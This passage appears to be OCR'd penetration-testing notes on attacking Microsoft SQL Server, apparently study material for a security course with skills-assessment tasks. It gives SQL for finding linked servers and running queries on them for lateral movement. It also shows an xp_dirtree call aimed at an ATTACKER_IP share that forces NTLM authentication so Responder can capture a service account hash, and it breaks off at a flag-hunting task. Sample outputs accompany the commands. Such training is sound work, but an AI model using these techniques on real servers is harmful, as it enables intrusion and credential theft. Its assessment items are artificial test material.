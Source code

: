 
## 🌐 Lateral Movement

### 1. Linked Servers

#### Identify Linked Servers
```sql
-- Find linked servers
SELECT srvname, isremote FROM sysservers
GO

-- Example output
srvname                             isremote
----------------------------------- --------
DESKTOP-MFERMN4\SQLEXPRESS          1
10.0.0.12\SQLEXPRESS                0

-- isremote: 1 = remote server, 0 = linked server
```

#### Execute Commands on Linked Servers
```sql
-- Execute commands on remote SQL instance
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO

-- Expected output
------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019      sa_remote                      1
```

---

## 📝 Skills Assessment Examples

### Example 1: Service Hash Capture
**Task**: Capture MSSQL service hash using xp_dirtree

```sql
-- Force authentication to attacker machine
EXEC master..xp_dirtree '\\ATTACKER_IP\share\'
GO

-- Responder captures NTLMv2 hash
-- Answer: Service account hash captured
```

### Example 2: Database Enumeration  
**Task**: Find flag in "flagDB" database
